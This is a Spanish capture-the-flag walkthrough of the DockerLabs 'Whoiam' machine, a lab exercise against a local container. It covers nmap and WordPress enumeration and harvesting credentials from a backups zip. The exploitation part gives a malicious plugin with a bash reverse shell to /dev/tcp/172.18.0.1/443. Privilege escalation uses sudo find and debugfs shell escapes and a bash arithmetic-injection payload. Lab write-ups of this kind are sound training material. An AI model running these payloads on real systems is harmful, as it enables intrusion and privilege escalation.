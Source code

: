 #MAQUINA #DOCKERLABS #FACIL 
#COMANDOS_COMPARACION_SCRIPT_BASH
<hr>

# RECONOCIMIENTO

Vamos a resolver **Whoiam** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.18.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.18.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 12:09 CET
Initiating ARP Ping Scan at 12:09
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 12:09, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:09
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Completed SYN Stealth Scan at 12:09, 0.58s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2024-12-09 12:09:46 CET for 0s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:12:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.77 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.18.0.2                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 12:10 CET
Nmap scan report for 172.18.0.2
Host is up (0.000017s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-generator: WordPress 6.5.4
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Whoiam
MAC Address: 02:42:AC:12:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.16 seconds



```

   ```bash

nmap --script="http-enum" 172.18.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 12:10 CET
Nmap scan report for 172.18.0.2
Host is up (0.0000040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /backups/: Backup folder w/ directory listing
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 6.5.4
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds

whatweb "http://172.18.0.2/"                             
http://172.18.0.2/ [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.18.0.2], JQuery[3.7.1], MetaGenerator[WordPress 6.5.4], Script, Title[Whoiam], UncommonHeaders[link], WordPress[6.5.4] 

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:**  **wordpress** y directorio **backups**.
## HTTP (80)

Al ver que hay en el directorio backups, hay un zip que si nos descargamos tenemos las credenciales de developer:

**Usuario -> developer**
**Contra -> 2wmy3KrGDRD%RsA7Ty5n71L^**
# EXPLOTACION

Nos registramos como developer (http://172.18.0.2/wp-login.php).

Nos vamos a plugins y subimos y activamos un plugin. Vamos a subir un zip que nos otorgue una reverse shell y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**).
Contenido del zip, un php con:

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.18.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
www-data@be07441fc421:/var/www/html/wp-admin$ sudo -l
Matching Defaults entries for www-data on be07441fc421:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on be07441fc421:
    (rafa) NOPASSWD: /usr/bin/find

```

Vemos **find** con permisos SUDO :
   ```bash
www-data@be07441fc421:/var/www/html/wp-admin$     sudo -u rafa find . -exec /bin/sh \; -quit
$ whoami
rafa
```

YA ESTAMOS COMO RAFA.

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
$ sudo -l
Matching Defaults entries for rafa on be07441fc421:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rafa may run the following commands on be07441fc421:
    (ruben) NOPASSWD: /usr/sbin/debugfs


```

Vemos **debugfs** con permisos SUDO :
   ```bash
$ sudo -u ruben debugfs
debugfs 1.47.0 (5-Feb-2023)
debugfs:  !/bin/sh
$ whoami
ruben

```

YA ESTAMOS COMO RUBEN.

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
$ sudo -l
Matching Defaults entries for ruben on be07441fc421:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ruben may run the following commands on be07441fc421:
    (ALL) NOPASSWD: /bin/bash /opt/penguin.sh



```

Vemos **/opt/penguin.sh** con permisos SUDO al ejecutarlo con bash :
   ```bash

ruben@be07441fc421:/var/www/html/wp-admin$ sudo /bin/bash /opt/penguin.sh 
Enter guess: a[$(bash -p)] + 42
root@be07441fc421:/var/www/html/wp-admin# whoami
root@be07441fc421:/var/www/html/wp-admin# 

```

Hay una mala sanitizacion del código, lo que permite ejecutar comandos. 

Lo que hacemos es declarar un array no inicializado anteriormente que tiene que ejecutar la sentencia. La necesita ejecutar para saber que posición devolver y luego sumarle 42.

**YA ESTAMOS COMO ROOT.**